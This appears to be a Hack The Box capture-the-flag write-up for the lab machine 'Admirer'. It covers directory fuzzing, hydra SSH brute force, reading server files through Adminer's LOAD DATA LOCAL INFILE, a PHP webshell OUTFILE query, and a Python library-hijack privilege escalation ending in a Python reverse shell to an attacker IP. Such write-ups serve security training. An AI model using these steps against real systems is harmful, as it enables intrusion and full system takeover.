

# Admirer: 10.10.10.187

## Hints

- Try find credentials by searching for hidden files on the webserver on a directory given in a hint!
- Download some more files from a file share location and find another directory given in a hint
- Use a modern wordlist for directory fuzzing this machine
- Once you find a web app to exploit, find a known exploit path by leverging database queries
- Once you get a secure shell, look at sudo for a Python library path privesc

## nmap

Starting with the usual `nmap` scan. Interesting ports:

```none
21/tcp open  ftp     vsftpd 3.0.3
22/tcp open  ssh     OpenSSH 7.4p1 Debian 10+deb9u7 (protocol 2.0)
80/tcp open  http    Apache httpd 2.4.25 ((Debian))
```

Looks like a Debian 10 target system running FTP, SSH, and HTTP on the default ports. Did a full port scan, but didn't find any additional open ports. Also did a quick check of FTP anonymous access, but no luck. Skipping SSH as it seems up to date. So started looking at HTTP.

## 80: Recon

The `nmap` output indicated that `robots.txt` was present, and had one entry of `/admin-dir`. There was also a note left by a user named `waldo` in the `robots.txt` file. Browsing to the home page of the website, we get a bunch of images laid out in a gallery-style website.


The page looks like a basic static HTML site, so not much to see. I tried browsing to the `admin-dir` but get a forbidden error.


Looking back at the main site, I loaded `index.html` and `index.php` and got the same websites. So the webserver is running PHP. With this information, started running a `gobuster` on the `admin-dir` directory of the webserver.

```none
gobuster dir -t 20 -w /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt -u 10.10.10.187/admin-dir/ -o logs/gobuster_80_admindir_medium.log -x php
```

Got no results! This seemed like the place to look as everything was pointing towards this directory. So ran another `gobuster` with a bunch of file extensions including `html,txt,log,bak,xml`. Got one result of `contacts.txt` which was a text file with names and email addresses for admins, developers, and designers.


After a long wait on the `gobuster` scan there was another result with `credentials.txt` file that had a list of usernames and passwords.


This was some interesting information. The output had credentials for an internal email, an FTP server, and a WordPress account.

```none
[Internal mail account]
w.cooper@admirer.htb
fgJr6q#S\W:$P

[FTP account]
ftpuser
%n?4Wz}R$tTF7

[Wordpress account]
admin
w0rdpr3ss01!
```

There were a couple of references to the `admirer.htb` domain name in both files, so I added it into my `/etc/hosts` file. I attempted to find the WordPress site, but after a while I guessed that one of my `gobuster` scans would have found it if it existed and was publicly available.

## Recon: 21

Now that we have an FTP username and password it makes sense to try those credentials.

```none
ftp 10.10.10.187
```

There were two files hosted by the FTP server.

```none
ftp> dir
200 PORT command successful. Consider using PASV.
150 Here comes the directory listing.
-rw-r--r--    1 0        0            3405 Dec 02  2019 dump.sql
-rw-r--r--    1 0        0         5270987 Dec 03  2019 html.tar.gz
```

Downloaded both of the files using the `get` command in the FTP console. The `dump.sql` file had some SQL commands that seemed to include some of the data that was already seen on the website. The interesting parts were the database name (`admirerdb`) and MySQL version (`10.1.41-MariaDB-0+deb9u1`).

The `html.tar.gz` file was much more interesting. It had the source code for the website. But some parts seemed to have a different directory structure. There was no `admin-dir`, and it seemed to be renamed to `w4ld0s_s3cr3t_d1r`. There were a bunch of scripts inside the `utility-scripts` folder with the endpoint URL being: `http://10.10.10.187/utility-scripts/` - this existed on the server. There was a script named `info.php` that ran and displayed the output from the `phpinfo()` function.



The `phptest.php` file was a simple script to test if PHP was running. The `admin_tasks.php` file seemed to be used to run a few administration tasks. Since some tasks were disabled client-side, I enabled them, but kept getting " Insufficient privileges to perform the selected operation.". Tried a couple of things to exploit this script, but it didn't seem possible based on the source code. Finally, the `db_admin.php` file returned a 404 error, which seemed kind of strange that it was missing when all the others existed. I ran a `gobuster` on the endpoint to try to find if the script name was changed to something else, or if there were any other files but had no luck.

At this point seemed like there was nothing else to gain from the files hosted on the FTP server, so attempted a brute force attack against the SSH service. I constructed a `user.txt` and `pass.txt` file from the credentials discovered so far, and set up a `hydra` command.

```none
└─$ hydra -L files/user.txt -P files/pass.txt 10.10.10.187 -t 4 ssh   
Hydra v9.1 (c) 2020 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2021-09-19 13:02:11
[DATA] max 4 tasks per 1 server, overall 4 tasks, 60 login tries (l:15/p:4), ~15 tries per task
[DATA] attacking ssh://10.10.10.187:22/
[22][ssh] host: 10.10.10.187   login: ftpuser   password: %n?4Wz}R$tTF7
1 of 1 target successfully completed, 1 valid password found
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2021-09-19 13:02:48
```

Success? Nope! Found one valid password combination for the `ftpuser`, but we cannot get access as that user doesn't seem to have a shell.

```none
└─$ ssh ftpuser@10.10.10.187
The authenticity of host '10.10.10.187 (10.10.10.187)' can't be established.
ECDSA key fingerprint is SHA256:NSIaytJ0GOq4AaLY0wPFdPsnuw/wBUt2SvaCdiFM8xI.
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added '10.10.10.187' (ECDSA) to the list of known hosts.
ftpuser@10.10.10.187's password: 
Linux admirer 4.9.0-12-amd64 x86_64 GNU/Linux

The programs included with the Devuan GNU/Linux system are free software;
the exact distribution terms for each program are described in the
individual files in /usr/share/doc/*/copyright.

Devuan GNU/Linux comes with ABSOLUTELY NO WARRANTY, to the extent
permitted by applicable law.
Connection to 10.10.10.187 closed.
```

At this point, I was lost for things to try, so I watched the [ippsec video on Admirer](https://www.youtube.com/watch?v=_zMg0fHwwfw) for some hints. Turns out that the `gobuster` scan on the `utility-scripts` directory was the correct method, but the wordlist I used did not have the entry that was needed, which was `adminer`. This is the new name for PHPMyAdmin - which I did not know, and didn't link to the name of the machine. I noticed in the video that ippsec had switched to the "raft" wordlist, so I did the same.

```none
gobuster dir -t 20 -w /usr/share/seclists/Discovery/Web-Content/raft-large-directories.txt -u 10.10.10.187/utility-scripts/ -o logs/gobuster_80_utilityscripts_medium.log -x php
```

And success! Discovered the `adminer.php` file which was accessible and got presented with a login form.


This was a strange login. There were options to change the database type, database name, and server location. This was pretty strange, but it seemed like I had the option to put in my server to authenticate against?! Before proceeding with setting up my database, I checked for any exploits against Adminer 4.6.2 - but didn't find anything suitable.

Instead of using MySQL (or another database) on Kali, I create a really simple Docker Compose environment to host the database. I love using Docker to create an isolated environment for testing, and already knew the environment variable names for setting a root user, a normal user, and creating a database in MySQL. The best part is the configuration is easy to share and changes don't need to be reverted on my Kali system when done.

Below is my `docker-compose.yml` file.

```none
version: '3.1'

services:
  db:
    image: mysql:5.7
    restart: always
    container_name: ap
    environment:
      MYSQL_DATABASE: admirer_pwn
      MYSQL_ROOT_PASSWORD: thefunkybunch2987
      MYSQL_USER: user
      MYSQL_PASSWORD: thefunkybunch2987
    ports:
      - "3306:3306"
```

Most of this configuration should be easy to read and understand for those comfortable with Docker. One thing I noticed during testing was to not use MySQL version 8 - I kept getting an error about the inability to authenticate against this version. Apart from that, just needed to set a default user name, password, and database name. If you are in the same directory as the `docker-compose.yml` file, just run the following command.

```none
docker-compose up
```

If you want to bring down the container, use "Ctrl + C". If you are done, you can clean up using the following command.

```none
docker-compose down
```

After running `docker-compose up`, you should be able to enter the information into the Adminer login form based on the information we have entered in the Docker Compose file. For the IP, using the IP of your `tun0` interface will work.


## Code Execution using MySQL

After getting access to Adminer, it seemed like the next step is to use MySQL to run a command - there seems to be no other options. I had a look at the [HackTricks article on pentesting MySQL](https://book.hacktricks.xyz/pentesting/pentesting-mysql). There were a couple of commands to write commands to the target machine file system. For example:

```sql
select 1,2,"<?php shell($_GET['cmd']);?>",4 into OUTFILE '/var/www/html/cmd.php'
```

This tries to write a PHP file to a web-accessible directory. If this worked, we could browse to the PHP file to execute the code. But it didn't work due to an access denied error.


The HackTricks article didn't provide any other solutions for RCE, so started to search for specific attacks against Adminer. I found an interesting article entitled: [Adminer Script Results to Pwning Server?](https://medium.com/bugbountywriteup/adminer-script-results-to-pwning-server-private-bug-bounty-program-fe6d8a43fe6f). After reading through the article, the steps are to log into a remote MySQL service using an attacker controlled database (done this part), then read files using the `read data local infile` command.

Before reading local files on the target, we need to create a table to store the data. We can use the SQL command feature in Adminer to run these commands.

```sql
CREATE TABLE random (data VARCHAR(256));
```

Then read in a file to the new table. I dumped a variety of files such as the `passwd` and `.bash_history`. There wasn't much interesting and finally decided to dump the `adminer.php` file.

```sql
LOAD DATA LOCAL INFILE '/var/www/html/utility-scripts/adminer.php' INTO TABLE admirer_pwn.random FIELDS TERMINATED BY "\n"
```


To view the output from the SQL commands we can simply view the table contents.

```sql
SELECT * FROM random
```

The `adminer.php` file had some credentials hardcoded to connect to the local MySQL database.

```php
$servername = "localhost";
$username = "waldo";
$password = "&<h5b~yK3F#{PaPB&dA}{H>";
$dbname = "admirerdb";
```

I noticed that the `waldo` user was in the `/etc/passwd` file. So thought I should try it on SSH. It would work on the Adminer page too if we need to log back in later. Instead of just trying a single SSH login, I updated the `user.txt` and `pass.txt` files from before and ran another `hydra` command.

```none
└─$ hydra -L files/user.txt -P files/pass.txt 10.10.10.187 -t 4 ssh
Hydra v9.1 (c) 2020 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2021-09-19 15:03:09
[DATA] max 4 tasks per 1 server, overall 4 tasks, 90 login tries (l:15/p:6), ~23 tries per task
[DATA] attacking ssh://10.10.10.187:22/
[22][ssh] host: 10.10.10.187   login: ftpuser   password: %n?4Wz}R$tTF7
[22][ssh] host: 10.10.10.187   login: waldo   password: &<h5b~yK3F#{PaPB&dA}{H>
1 of 1 target successfully completed, 2 valid passwords found
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2021-09-19 15:04:02
```

Success! We got some credentials for the `waldo` user.

```none
└─$ ssh waldo@10.10.10.187     
waldo@10.10.10.187's password: 
Linux admirer 4.9.0-12-amd64 x86_64 GNU/Linux

The programs included with the Devuan GNU/Linux system are free software;
the exact distribution terms for each program are described in the
individual files in /usr/share/doc/*/copyright.

Devuan GNU/Linux comes with ABSOLUTELY NO WARRANTY, to the extent
permitted by applicable law.
You have new mail.
Last login: Wed Apr 29 10:56:59 2020 from 10.10.14.3
waldo@admirer:~$ id
uid=1000(waldo) gid=1000(waldo) groups=1000(waldo),1001(admins)
waldo@admirer:~$ wc -c user.txt 
33 user.txt
waldo@admirer:~$ cat user.txt 
```

Success! The user flag!

## Privesc: `waldo` to `root`

Started by checking the `sudoers` file while doing a quick manual enumeration on the target machine.

```none
waldo@admirer:~$ sudo -l
[sudo] password for waldo: 
Matching Defaults entries for waldo on admirer:
    env_reset, env_file=/etc/sudoenv, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin, listpw=always

User waldo may run the following commands on admirer:
    (ALL) SETENV: /opt/scripts/admin_tasks.sh
```

Looks like we can run `sudo` on the `admin_tasks.sh` script. We don't need the no password option in the sudo entry, as we have `waldo`s password. This was the same script we were running from the web application. After checking the permissions on the script, we have read and execute access.

```none
waldo@admirer:~$ ls -lisa /opt/scripts/admin_tasks.sh
154945 4 -rwxr-xr-x 1 root admins 2613 Dec  2  2019 /opt/scripts/admin_tasks.sh
```

Checking our group as `waldo` shows we are in the `admins` group so can read and execute, but not in `sudo` which is why the `sudoers` entry is essential to run this with `root` perms.

```none
waldo@admirer:~$ groups
waldo admins
```

After running the script we are presented with a collection of options that we can select by inputting a number. from our recon so far, we know options 4, 5, 6, and 7 need admin access. This privesc seems like it should be easy, but there is a little more to it. All the commands have a full path, so we cannot do a Bash path override. There is one function named `backup_web` that seems interesting. This function calls the`/opt/scripts/backup.py` script. However, the code in the script isn't exploitable. But we can do some [Python Library Hijacking on Linux](https://medium.com/analytics-vidhya/python-library-hijacking-on-linux-with-examples-a31e6a9860c8).

The basic premise of the attack is to create a Python module with the same name as an imported library, then modify the `PYTHONPATH` so that our "fake" module is run instead of the Python standard library file. The only import in the script in `shutil`.

I started by creating a file named `shutil.py` with the code we want. I choose this file name as that was the library imported in the `backup.py` file. In this example, I will just create a file named `/tmp/meow.txt` as a PoC and see if it is created by `root`. I wrote a one-liner command to create this file.

```python
echo -e '#!/usr/bin/python3\n\nfrom pathlib import Path\n\nPath("/tmp/meow.txt").touch()\n' > /tmp/shutil.py
```

And here is the resultant file:

```python
#!/usr/bin/python3

from pathlib import Path

Path("/tmp/meow.txt").touch()
```

Then run the script using.

```none
sudo PYTHONPATH=/tmp /opt/scripts/admin_tasks.sh 6
```

This command sets the `PYTHONPATH` to `/tmp` then runs the `admin_tasks.sh` script with `6` as standard input. The reason I use two one-liners to create the Python file, then execute it is that the `/tmp` directory is overwritten periodically - about every 2 minutes or so. It would make sense to find another directory, but I was feeling lazy.

Success! After running the script we get a file named `meow.txt` which is owned by `root`.

```none
waldo@admirer:/tmp$ sudo PYTHONPATH=/tmp /opt/scripts/admin_tasks.sh 6
Running backup script in the background, it might take a while...
waldo@admirer:/tmp$ ls -lisa
total 16
131105 4 drwxrwxrwt  3 root  root  4096 Sep 19 04:28 .
     2 4 drwxr-xr-x 22 root  root  4096 Apr 16  2020 ..
142487 0 -rw-r--r--  1 root  root     0 Sep 19 04:28 meow.txt
142253 4 -rw-r--r--  1 waldo waldo  129 Sep 19 04:28 shutil.py
132780 4 drwx------  2 root  root  4096 Sep 19 00:42 vmware-root
```

At this point, we can modify the `shutil.py` file to get the root flag or make a reverse shell. I choose the reverse shell option.

```none
echo -e '#!/usr/bin/python3\n\nimport sys,socket,os,pty\n\ns=socket.socket()\ns.connect(("10.10.14.7",9001))\n[os.dup2(s.fileno(),fd) for fd in (0,1,2)]\npty.spawn("/bin/sh")\n' > /tmp/shutil.py
```

Ran the script again, after creating a netcat listener.

```none
└─$ nc -lvnp 9001
listening on [any] 9001 ...
connect to [10.10.14.7] from (UNKNOWN) [10.10.10.187] 46484
# id
id
uid=0(root) gid=0(root) groups=0(root)
# wc -c /root/root.txt
wc -c /root/root.txt
33 /root/root.txt
```

Done!

## Lessons Learned

- Start using more modern wordlists for fuzzing such as raft from SecLists
- Python library hijacking was a new an interesting privesc method for me

## Useful Resources

- [HackTheBox - Admirer by ippsec](https://www.youtube.com/watch?v=_zMg0fHwwfw)
- [HTB: Admirer by 0xdf](https://0xdf.gitlab.io/2020/09/26/htb-admirer.html)
